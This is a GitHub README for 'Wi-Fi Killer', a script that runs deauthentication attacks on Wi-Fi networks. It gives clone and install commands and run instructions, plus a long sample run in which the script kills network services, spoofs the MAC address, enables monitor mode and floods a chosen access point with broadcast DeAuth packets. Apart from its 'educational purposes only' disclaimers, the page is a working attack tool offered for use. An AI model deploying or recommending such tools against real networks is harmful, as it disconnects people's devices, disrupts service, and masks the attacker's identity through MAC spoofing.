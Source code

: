 # 🚀 Wi-Fi Killer - Deauthentication Script

## ⚡ What is it?

Wi-Fi Killer is a simple tool that lets you perform a **deauthentication attack** on Wi-Fi networks. 🛠️ It sends packets to disconnect devices from a target network (BSSID). Only use it on networks you own or have explicit permission to attack! 🚨

💥 **Warning**: This script is for **educational purposes only**! Misusing it could get you in legal trouble. 🏴‍☠️

---

## 🛠️ Features

- 🏙️ **Scan networks** and see their details (SSID, BSSID, channel, etc.)
- 💣 **Deauth attack**: Disconnect devices from a selected Wi-Fi network
- 🕵️‍♂️ **Anonymize your MAC** address for privacy
- 🔄 **Change channels** to target specific networks more easily
- 🚫 **Stop NetworkManager** to prevent automatic mode-switching

---

## 🔥 Requirements

Before you can use this script, you'll need to install some tools:

- aircrack-ng 🔐
- macchanger 🛡️
- iw 📡
- libncurses5-dev 🎮
- libpcap-dev 🕹️
- Python 3 + pip 🐍

You'll also need to install the `tabulate` library:

```bash
pip3 install tabulate
```
Get it up and running in just a few steps! 🎉

Clone the repo:
```bash
git clone https://github.com/thisudo/wifi-Deauthentication-script
cd wifi-Deauthentication-script
sudo bash install.sh
```
This will set up all your dependencies:

🏃‍♂️ Usage
Run the script:
```bash
sudo python3 wifi_killer.py
```
Pick your interface (e.g., wlan0).

Scan networks and pick the BSSID of the target you want to attack. 💥

Confirm the channel and start the attack. 💣

Hit Ctrl+C to stop the attack and clean everything up. 🔚

## Exemple on ubuntu
```bash
██╗    ██╗██╗      ███████╗██╗    ██╗  ██╗██╗██╗     ██╗     ███████╗██████╗ 
██║    ██║██║      ██╔════╝██║    ██║ ██╔╝██║██║     ██║     ██╔════╝██╔══██╗
██║ █╗ ██║██║█████╗█████╗  ██║    █████╔╝ ██║██║     ██║     █████╗  ██████╔╝
██║███╗██║██║╚════╝██╔══╝  ██║    ██╔═██╗ ██║██║     ██║     ██╔══╝  ██╔══██╗
╚███╔███╔╝██║      ██║     ██║    ██║  ██╗██║███████╗███████╗███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝      ╚═╝     ╚═╝    ╚═╝  ╚═╝╚═╝╚══════╝╚══════╝╚══════╝╚═╝  ╚═╝
                                                                       by: thisudo 
[!] Wi-Fi Deauthentication Script [!]                
    For educational purposes only!
    Use at your own risk on your own network!
    I am not responsible for any misuse!

**************************************************
[INFO] Scan networks and launch deauth attack.
[WARNING] Only use this on networks you own!
**************************************************
lo        no wireless extensions.

eno1      no wireless extensions.

wlp2s0    IEEE 802.11  ESSID:"<HIDDEN_SSID>"  
          Mode:Managed  Frequency:2.412 GHz  Access Point: <HIDDEN_BSSID>   
          Bit Rate=58.5 Mb/s   Tx-Power=15 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
          Link Quality=46/70  Signal level=-64 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:97   Missed beacon:0

docker0   no wireless extensions.

[?] Enter your INTERFACE: wlp2s0
+-------------------+----------------------------+---------+-----------------------+------------+
|       BSSID       |            SSID            | Channel | Signal Strength (dBm) | Encryption |
+-------------------+----------------------------+---------+-----------------------+------------+
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_1>      |   48    |          -77          |    Yes     |
| <HIDDEN_BSSID>    |      <HIDDEN_SSID_2>       |   11    |          -57          |    Yes     |
| <HIDDEN_BSSID>    |         <HIDDEN_SSID_3>    |    9    |          -73          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_4>         |    3    |          -54          |    Yes     |
| <HIDDEN_BSSID>    |        <HIDDEN_SSID_5>     |    1    |          -65          |    Yes     |
| <HIDDEN_BSSID>    |     <HIDDEN_SSID_6>        |    2    |          -71          |    Yes     |
| <HIDDEN_BSSID>    |    <HIDDEN_SSID_7>         |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_8>  |    6    |          -79          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_9>  |    7    |          -81          |    Yes     |
| <HIDDEN_BSSID>    | <HIDDEN_SSID_10>           |    1    |          -87          |    Yes     |
| <HIDDEN_BSSID>    |           <HIDDEN_SSID_11> |   40    |          -86          |    Yes     |
+-------------------+----------------------------+---------+-----------------------+------------+

 [?] Enter the Wi-Fi BSSID to attack: <HIDDEN_BSSID>
Disconnecting from the AP...
[*] Killing interfering processes...

Killing these processes:

    PID Name
  30183 NetworkManager
  30193 wpa_supplicant
  30839 avahi-daemon
  30842 avahi-daemon

[*] Anonymizing MAC address...
Current MAC:   <HIDDEN_MAC> (unknown)
Permanent MAC: <HIDDEN_MAC> (Intel Corporate)
New MAC:       <HIDDEN_MAC> (unknown)
[+] MAC address anonymized.
[*] Enabling monitor mode on wlp2s0...

Found 2 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
  30858 avahi-daemon
  30860 avahi-daemon

PHY	Interface	Driver		Chipset

phy0	wlp2s0		iwlwifi		Intel Corporation Centrino Advanced-N 6200 (rev 35)
		(monitor mode enabled)

[+] Monitor mode enabled on wlp2s0.
Changing channel to 11...
Sending deauthentication packets to BSSID: <HIDDEN_BSSID>
06:46:28  Waiting for beacon frame (BSSID: <HIDDEN_BSSID>) on channel 11
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:28  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:29  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:30  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:31  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:32  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:33  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:34  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
06:46:35  Sending DeAuth (code 7) to broadcast -- BSSID: [<HIDDEN_BSSID>]
```

🏃‍♂️ Usage
Once you’ve finished with the attack, you can return the Wi-Fi card to managed mode by running the following commands:

```bash
sudo airmon-ng stop <interface>
sudo systemctl restart NetworkManager
```
This will stop the monitor mode on your Wi-Fi interface and restart the NetworkManager service to get everything back to normal. 🔄


✍️ Author

thisudo
